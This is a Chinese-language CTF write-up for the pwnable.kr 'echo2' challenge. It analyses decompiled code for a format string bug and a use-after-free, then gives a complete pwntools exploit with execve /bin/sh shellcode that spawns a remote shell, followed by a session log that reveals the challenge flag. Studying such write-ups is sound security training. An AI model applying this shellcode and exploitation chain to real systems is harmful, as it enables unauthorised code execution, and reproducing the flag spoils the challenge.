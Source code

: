 ```yaml
---
title: pwnable.kr-echo2
date: 2018-03-10 10:41:00
tags: [pwnable.kr,PWN]
categories: CTF
copyright: true
---
```

# 前言 
这道题和上一题主逻辑一样，主要是漏洞不一样了，这道题考察格式化支付串漏洞和堆的释放后重用漏洞。
# 分析
先分析反编译代码
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int *v3; // rsi@1
  _QWORD *v4; // rax@1
  int v6; // [sp+Ch] [bp-24h]@1
  _QWORD v7[4]; // [sp+10h] [bp-20h]@1

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  o = malloc(0x28uLL);
  *((_QWORD *)o + 3) = greetings;
  *((_QWORD *)o + 4) = byebye;
  printf("hey, what's your name? : ", 0LL);
  v3 = (int *)v7;
  __isoc99_scanf("%24s", v7);
  v4 = o;
  *(_QWORD *)o = v7[0];
  v4[1] = v7[1];
  v4[2] = v7[2];
  id = v7[0];
  getchar();
  func[0] = (__int64)echo1;
  qword_602088 = (__int64)echo2;
  qword_602090 = (__int64)echo3;
  v6 = 0;
  do
  {
    while ( 1 )
    {
      while ( 1 )
      {
        puts("\n- select echo type -");
        puts("- 1. : BOF echo");
        puts("- 2. : FSB echo");
        puts("- 3. : UAF echo");
        puts("- 4. : exit");
        printf("> ", v3);
        v3 = &v6;
        __isoc99_scanf("%d", &v6);
        getchar();
        if ( (unsigned int)v6 > 3 )
          break;
        ((void (__fastcall *)(const char *, int *))func[(unsigned __int64)(unsigned int)(v6 - 1)])("%d", &v6);
      }
      if ( v6 == 4 )
        break;
      puts("invalid menu");
    }
    cleanup();
    printf("Are you sure you want to exit? (y/n)", &v6);
    v6 = getchar();
  }
  while ( v6 != 121 );
  puts("bye");
  return 0;
}
```
```c
__int64 echo2()
{
  char format; // [sp+0h] [bp-20h]@1

  (*((void (__fastcall **)(_QWORD))o + 3))(o);
  get_input(&format, 32LL);
  printf(&format);
  (*((void (__fastcall **)(_QWORD))o + 4))(o);
  return 0LL;
}
```
```c
__int64 echo3()
{
  char *s; // ST08_8@1

  (*((void (__fastcall **)(_QWORD))o + 3))(o);
  s = (char *)malloc(0x20uLL);
  get_input(s, 32LL);
  puts(s);
  free(s);
  (*((void (__fastcall **)(_QWORD, _QWORD))o + 4))(o, 32LL);
  return 0LL;
}
```
程序这次只实现了`echo2`和`echo3`函数。分析可以发现，`echo2`函数中有格式化字符串漏洞。利用这个漏洞可以读写任意8字节内存。开始想得利用方式是向`v7`变量（就是要输入的名字）写shellcode然后通过该漏洞改写返回地址跳转到该处执行，但是实际上栈地址是64位的想一次写入64位的整数到内存用时太长，特别是在题目平台更长。所以这种方法并不可取。
另一处漏洞需要`echo3`函数配合`main`函数里的一处逻辑缺陷来制造`uaf漏洞`。仔细分析`main`函数发现，如果在选择`4`选项退出时，程序会执行`cleanup`函数，该函数会执行`free(o)`释放掉先前申请的`0x28`大小的堆空间。接下来程序又会询问是否退出，否的话又会进入主逻辑执行。很明显的一处释放后重用。而`echo3`函数中申请了`0x20`大小的堆空间，根据glibc的堆管理策略，这次申请的堆会直接使用上次释放的堆块，这样如果覆盖了第4个8字节就会导致后面执行`(*((void (__fastcall **)(_QWORD))o + 3))(o);`时执行任意覆盖的地址了。利用这个漏洞就能解决`printf`写内存的困难。
整理下利用思路，向`v7`变量覆盖shellcode，使用`prinf`的漏洞leak处栈地址然后计算处`v7`的地址，之后利用uaf漏洞跳转到`v7`执行。下面是exp
```python
from pwn import *

def work(DEBUG):
    context(arch='amd64',os='linux',log_level='info')
    if DEBUG:
        r = process('./echo2')
    else:
        r = remote('pwnable.kr',9011)
        
    
    shellcode = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"# 23 bytes
    
    #context.terminal=['gnome-terminal','-x','sh','-c']
    #gdb.attach(proc.pidof(r)[0])
    
    r.recvuntil(' : ')
    r.sendline(shellcode)
    r.recvuntil('> ')
    r.sendline('2')
    r.recvuntil('\n')
    r.sendline('%10$016lx') # get rbp addr
    
    rbp_addr = int(r.recv(16),16)
    v7_addr = rbp_addr-0x20
    
    r.recvuntil('> ')
    r.sendline('4')
    r.recvuntil('(y/n)')
    r.sendline('n\n3\n'+'a'*24+p64(v7_addr))
    
    r.recvuntil('> ')
    r.sendline('3')
    r.interactive()

work(False)
```
```bash
root@1:~/桌面/test$ python 1.py 
[+] Opening connection to pwnable.kr on port 9011: Done
[*] Switching to interactive mode
hello 
aaaaaaaaaaaaaaaaaaaaaaaa0\x1f\xb4>\xfe\x7f
goodbye 

- select echo type -
- 1. : BOF echo
- 2. : FSB echo
- 3. : UAF echo
- 4. : exit
> sh: 1: 3: not found
$ ls
echo2
flag
log
super.pl
$ cat flag
fun_with_UAF_and_FSB :)
$  
```
另外注意这是linux的x64环境下，`printf`的利用需要考虑前6个参数是寄存器传递的，要计算好。
# 总结
两个漏洞的配合最后拿下shell，很爽。